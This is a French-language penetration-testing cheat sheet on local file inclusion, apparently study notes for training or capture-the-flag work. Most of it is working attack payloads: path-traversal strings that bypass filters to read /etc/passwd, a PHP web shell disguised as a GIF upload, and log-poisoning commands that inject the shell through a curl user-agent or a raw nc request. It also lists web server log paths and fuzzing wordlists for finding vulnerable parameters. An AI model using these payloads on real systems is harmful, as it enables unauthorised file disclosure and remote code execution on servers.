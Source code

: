 # Outrepasser les contremesures
Outrepasser les enlèvements de ../ non récursif

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#outrepasse les enlèvements de ../ non récursif
....//....//....//etc/passwd
#encodage URL
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
#double encodage
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Outrepasser une regex qui limite à un dossier

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#regex pour limited dans un certain dossier
./langue/../../../etc/passwd
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Outrepasser les .truc forcés (Obselète)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#PHP ignore les / de fin, les . simples
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
#pré php 5.5. Terminer la string par un octect null
/etc/passwd%00
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# Téléversement
Utiliser les fonctions de téléversement, cacher notre fichier dans un format accepté et l'inclure dans une page
ex: 
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
Si on peut voir l'image, regarder le code source pour le chemin

Log Poisoning
Ajouter du code dans un fichier que l'on contrôle, ex log puis essayer de le faire exécuter
Peut-être très gros! Reset la machine avant

| Emplacement | Distribution |
| --- | --- |
| **Apache** | Ne pourra peut-être pas être lu à cause des privilèges |
| /var/log/httpd/access_log	| 		RHEL / Red Hat / CentOS / Fedora| 
| /var/log/apache2/access.log	| 		Debian / Ubuntu Linux| 
| /var/log/httpd-access.log		| 		FreeBSD| 
| C:\xampp\apache\logs\access.log	| Windows| 
| **NGinx** | | 
| /var/log/nginx/ | Linux | 
| C:\nginx\log\ | Windows| 

modifier user-agent	
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Ajouter du code dans le GET
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc 192.168.60.216 80     
GET /<?php system($_GET['cmd']); ?>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Peut aussi trouver le user-agent sur linux dans
* /proc/self/environ
* /proc/self/fd/[PID]

autres logs de services
* /var/log/sshd.log
* /var/log/mail
* /var/log/vsftpd.log

# Automatisation
Fuzzer, essayer de trouver des paramètres non exposés
seclist/Discovery/Web-Content/burp-parameter-names.txt
http://<SERVER_IP>:<PORT>/index.php?FUZZ=value
		
fuzzer les valeurs de params pour LFI 
secLists/Fuzzing/LFI/LFI-Jhaddix.txt
		
Trouver la racine du serveur web, fuzzer vers index.php
secLists/Discovery/Web-Content/default-web-root-directory-linux.txt
secLists/Fuzzing/LFI/LFI-Jhaddix.txt
		
Trouver les fichiers de config du serveur, fuzzer
lfi/lfi-wordlist-linux
lfi/lfi-wordlist-windows
secLists/Fuzzing/LFI/LFI-Jhaddix.txt